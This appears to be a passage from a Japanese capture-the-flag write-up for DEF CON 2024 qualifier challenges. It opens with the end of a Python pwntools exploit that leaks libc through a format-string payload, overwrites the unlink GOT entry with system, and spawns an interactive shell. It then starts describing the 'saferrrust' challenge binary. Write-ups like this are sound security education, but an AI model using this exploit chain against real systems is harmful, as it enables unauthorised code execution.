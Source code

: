 ```python
        ret = stream.readuntil(b'Not')[0: -3]
        return ret

    libc_start_main_ret = int(exec_fmt("%19$lx".encode()).decode(), 16)
    libc = ELF("/usr/lib/libc.so.6")

    # info(f"libc_start_main_ret = {hex(libc_start_main_ret)}")
    libc_base = libc_start_main_ret - 0x25c88
    success(f"libc address: {hex(libc_base)}")

    libc.address = libc_base
    info(f"system = {hex(libc.symbols['system'])}")

    stream.send(b"\x00" * 555)

    stream.sendline(b'x' * (0x49 + 0x10) + pack(binary.got['unlink'] - 1)[:3])
    stream.send(b'P' + pack(libc.symbols['system'] + 1)[:8]) # +1 is stack alignment

    stream.send(b"\x00" * 100)

    stream.sendline(b'sus')
    stream.sendline(b'sus;/bin/sh')

    success("got real world")

    stream.sendline(b'whoami')

    stream.interactive()

if __name__ == '__main__':
    exploit()
```

## saferrrust

[問題リンク](https://github.com/Nautilus-Institute/quals-2024/tree/main/saferrrust)

Rust で書かれたバイナリが渡されます。

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

セーブ機能付きの数当てゲームです。最初にプレイヤーネームを聞かれます。
実際のゲームは単純で、数があたったら+100 点、外れたら-1 点され、合計得点が一定数を超えると勝利になります。

Panic が発生したときは、プログラムの終了ではなく `error.log` というファイルにその内容が書き出されます。

セーブ機能は、プレイヤーネームと得点をセーブファイルに保存し、それをロードすることができます。
どのセーブファイルに保存するかはユーザが選択でき、1 から 3 の数を入力することでそれぞれ `savefile1`, `savefile2`, `savefile3` に Save と Load を行うことができます。これらはファイルとして保存されます。
このとき、`savefile` は`mmap`を使ってメモリ上にマップされますが、これはバイナリが配置されている領域の次の領域に配置されます。
